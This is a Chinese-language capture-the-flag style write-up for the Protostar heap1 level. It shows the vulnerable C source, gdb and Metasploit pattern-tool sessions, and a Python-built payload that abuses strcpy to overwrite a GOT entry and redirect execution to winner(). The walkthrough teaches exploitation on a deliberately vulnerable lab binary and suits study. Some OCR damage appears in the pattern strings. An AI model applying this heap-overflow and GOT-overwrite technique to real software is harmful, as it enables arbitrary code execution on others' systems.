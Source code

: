 # heap1

## （一） 题目：

\#include &lt;unistd.h&gt;

\#include &lt;string.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;sys/types.h&gt;

struct internet {

int priority;

char \*name;

};

void winner\(\)

{

printf\("and we have a winner @ %d\n", time\(NULL\)\);

}

int main\(int argc, char \*\*argv\)

{

struct internet \*i1, \*i2, \*i3;

i1 = malloc\(sizeof\(struct internet\)\);

i1-&gt;priority = 1;

i1-&gt;name = malloc\(8\);

i2 = malloc\(sizeof\(struct internet\)\);

i2-&gt;priority = 2;

i2-&gt;name = malloc\(8\);

strcpy\(i1-&gt;name, argv\[1\]\);

strcpy\(i2-&gt;name, argv\[2\]\);

printf\("and that's a wrap folks!\n"\);

}

## （二）解题过程：

源码就是两个参数比较，看那个赢，决出一个来。如果不调用winner\(\)函数，是决出不了的。

本题就是利用strcpy过程中，没控制输入参数的长度，覆盖了指针，可以修改崩溃地址的值，从而改变执行流程，执行到winner函数的入口地址。

思路如下：

1）可以用手工试探法测试也可以用patter工具测试，定位会导致崩溃的精确位置。

2）用objdump -t 获取winner函数的地址或者gdb获取。

3）构造payload

验证思路：

1）

root@fly:/usr/share/metasploit-framework/tools/exploit\# ./pattern\_create.rb Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

root@protostar:/opt/protostar/bin\# gdb ./heap1

GNU gdb \(GDB\) 7.0.1-debian

Copyright \(C\) 2009 Free Software Foundation, Inc.

License GPLv3+: GNU GPL version 3 or later &lt;[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)

This is free software: you are free to change and redistribute it.

There is NO WARRANTY, to the extent permitted by law.  Type "show copying"

and "show warranty" for details.

This GDB was configured as "i486-linux-gnu".

For bug reporting instructions, please see:

&lt;[http://www.gnu.org/software/gdb/bugs/&gt;](http://www.gnu.org/software/gdb/bugs/&gt);...

Reading symbols from /opt/protostar/bin/heap1...done.

\(gdb\) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag bbbbbbbb

Starting program: /opt/protostar/bin/heap1 Aa0Aa1Aa2Aa3Aa4Aa5Aa**6Aa7**Aa8Aa9Ab0Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Agbbbbbb

Program received signal SIGSEGV, Segmentation fault.

\*\_\_GI\_strcpy \(dest=0x37614136 &lt;Address 0x37614136 out of bounds&gt;,

```
src=0xbffffe8e "bbbbbbbb"\) at strcpy.c:40
```

40    strcpy.c: No such file or directory.

```
in strcpy.c
```

root@fly:/usr/share/metasploit-framework/tools/exploit\# ./pattern\_offset.rb -q 0x37614136

\[\*\] Exact match at offset 20

找到了崩溃的精确位置，在距离缓冲区20个字节后的开始处。

2）print winner

objdump -tR ./heap1

08048494 g     F .text    00000025              winner

找到了winner地址   08048494

3）构造payload

0x08048561 &lt;main+168&gt;:    call   0x80483cc &lt;puts@plt&gt;

0x08048566 &lt;main+173&gt;:    leave

0x08048567 &lt;main+174&gt;:    ret

End of assembler dump.

\(gdb\) b \*0x0804855a

Breakpoint 1 at 0x804855a: file heap1/heap1.c, line 34.

\(gdb\) r AAAAAAAA BBBBBBBB

Starting program: /opt/protostar/bin/heap1 AAAAAAAA BBBBBBBB

Breakpoint 1, main \(argc=3, argv=0xbffffd44\) at heap1/heap1.c:34

34    heap1/heap1.c: No such file or directory.

```
in heap1/heap1.c
```

\(gdb\) x/2i 0x80483cc

0x80483cc &lt;puts@plt&gt;:    jmp    \*0x8049774

0x80483d2 &lt;puts@plt+6&gt;:    push   $0x30

./heap1 $\(python -c 'print "A"\*20 + "\x74\x97\x04\x08"'\) $\(python -c 'print "\x94\x84\x04\x08"'\)

![](/assets/75.png)

$ ./heap1 $\(python -c 'print "A"\*20 + "\x74\x97\x04\x08"'\) $\(python -c 'print "\x94\x84\x04\x08"'\)

and we have a winner @ 1568657805

20个A填充+ 4个字节覆盖崩溃错（jmp esp处,ESP指向下一条指令的地址） ，另外一个参数 用winner入口地址代替。

在这关有嵌入的 malloc 调用，接着，还有有漏洞的 strcpy 函数用于将我们的输入拷贝至 struct 中。

我们在每个 malloc 和 strcpy 之前放置断点来动态分析，同时也开始分析堆中的内容。

可以看到，每次 strcpy 之后堆的结构如图所示，从此我们可以推断在第一个 malloc 调用时，字段 \*name 的优先级和内存地址被放到了栈上，然后在I2的 malloc 调用完成的时候发生了同样的事情。因为这个程序使用了有漏洞的 strcpy 函数，这也意味着我们可以写任意的数据到任何可写的位置。 如图所示，我们使用第一个 strcpy 函数来改写地址0x804a038并放了一个 GOT 进去，通过第二个 strcpy 函数来改写地址0x42424242为 winner 函数的 PLT 地址，最终通过了本关。

![](/assets/77.png)

ref：

[http://www.atomsec.org/游戏/protostar-heap-0-2-write-ups/](http://www.atomsec.org/游戏/protostar-heap-0-2-write-ups/)

http://l33thacker.com/protostar-heap1-writeup/

https://turingh.github.io/2015/12/14/protostar-heap3/

